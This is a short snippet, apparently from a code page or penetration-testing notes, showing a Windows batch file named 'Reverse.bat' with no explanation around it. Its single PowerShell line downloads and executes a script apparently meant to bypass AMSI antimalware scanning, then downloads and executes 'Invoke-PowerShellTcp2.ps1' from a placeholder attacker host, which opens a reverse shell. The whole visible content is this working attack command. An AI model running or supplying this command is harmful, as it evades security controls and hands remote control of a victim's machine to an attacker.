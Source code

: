 #### Reverse.bat
```
powershell.exe -c "iex (New-Object Net.WebClient).DownloadString('http://<IP>/amsi.txt'); iex (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp2.ps1')"
```
 
